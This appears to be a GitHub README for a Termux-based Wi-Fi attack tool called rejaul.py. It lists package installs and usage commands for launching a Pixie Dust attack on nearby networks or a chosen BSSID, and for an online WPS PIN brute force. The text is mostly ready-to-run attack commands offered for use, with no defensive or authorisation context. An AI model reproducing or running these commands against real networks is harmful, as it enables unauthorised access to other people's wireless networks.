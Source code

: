 # rejaul2712

pkg install -y root-repo

pkg install -y git tsu python wpa-supplicant pixiewps iw

$ cd rejaul2712

$ chmod +x *

$ python rejaul.py -h

plz' go to HOME

Example : sudo python rejaul.py -i wlan0 -K

Note:

First turn off your Wifi.

Show avaliable networks and start Pixie Dust attack on a specified network.

sudo python rejaul.py -i wlan0 -K

Start Pixie Dust attack on a specified BSSID: 

sudo python rejaul.py -i wlan0 -b 00:91:4C:C3:AC:28 -K

Launch online WPS bruteforce with the specified first half of the PIN:

sudo python rejaul.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234

Troubleshooting

"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.
